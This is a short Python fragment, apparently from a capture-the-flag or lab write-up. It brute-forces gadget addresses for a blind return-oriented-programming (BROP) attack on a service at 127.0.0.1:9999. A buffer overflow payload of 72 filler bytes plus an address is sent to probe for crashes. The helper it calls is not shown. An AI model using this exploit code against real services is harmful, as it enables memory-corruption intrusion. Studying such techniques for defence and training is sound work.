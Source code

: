 ```python



def check_brop_gadget(length, addr):

    try:

        sh = remote('127.0.0.1', 9999)

        sh.recvuntil('password?\n')

        payload = 'a' * length + p64(addr) + 'a' * 8 * 10

        sh.sendline(payload)

        content = sh.recv()

        sh.close()

        return False

    except Exception:

        sh.close()

        return True





##length = getbufferflow_length()

length = 72

##get_stop_addr(length)

stop_gadget = 0x4006b6

addr = 0x400740

while 1:

    print hex(addr)

    if get_brop_gadget(length, stop_gadget, addr):

        print 'possible brop gadget: 0x%x' % addr

        if check_brop_gadget(length, addr):

            print 'success brop gadget: 0x%x' % addr

            break

    addr += 1

```
